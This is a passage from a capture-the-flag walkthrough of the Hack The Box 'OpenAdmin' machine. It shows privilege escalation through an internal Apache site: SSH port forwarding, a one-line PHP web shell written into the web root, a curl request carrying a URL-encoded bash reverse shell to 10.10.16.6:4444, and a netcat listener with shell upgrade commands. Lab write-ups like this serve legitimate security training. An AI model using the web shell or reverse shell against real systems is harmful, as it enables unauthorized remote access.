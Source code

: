 
I found an apache config file called internal.conf (LinPEAS found the domain for this):

```xml
jimmy@openadmin:/etc/apache2/sites-enabled$ cat internal.conf 
Listen 127.0.0.1:52846

<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```

This file shows me that there is an enabled site on port 52846, it also runs as joanna, so this might be used for privesc. I connect again with SSH and forwarded the port:

```bash
┌──(user㉿KaliVM)-[/tools/LinPEAS]
└─$ ssh jimmy@openadmin.htb -L 52846:localhost:52846
Last login: Mon Sep 13 11:05:55 2021 from 10.10.16.6
jimmy@openadmin:~$
```

I see the site, it is a login page. I remembered that it is running as joanna, so I can upload a web shell over the SSH connection:

```bash
jimmy@openadmin:/var/www/internal$ echo '<?php system($_GET["cmd"]); ?>' > cmd.php  
jimmy@openadmin:/var/www/internal$ cat cmd.php
<?php system($_GET["cmd"]); ?>
```

The site can now be curl-ed with the command:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/openadmin]
└─$ curl http://localhost:52846/cmd.php?cmd=id 
uid=1001(joanna) gid=1001(joanna) groups=1001(joanna),1002(internal)
                                                                                                         
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/openadmin]
└─$ curl 'http://127.0.0.1:52846/cmd.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.10.16.6/4444%200%3E%261%27'
```

Now, look at the netcat listener:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/openadmin]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.171] 34730
bash: cannot set terminal process group (1275): Inappropriate ioctl for device
bash: no job control in this shell
joanna@openadmin:/var/www/internal$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<nal$ python3 -c 'import pty;pty.spawn("/bin/bash")'
joanna@openadmin:/var/www/internal$ export TERM=xterm
export TERM=xterm
^Z
zsh: suspended  nc -lvnp 4444

┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/openadmin]
└─$ stty raw -echo; fg
```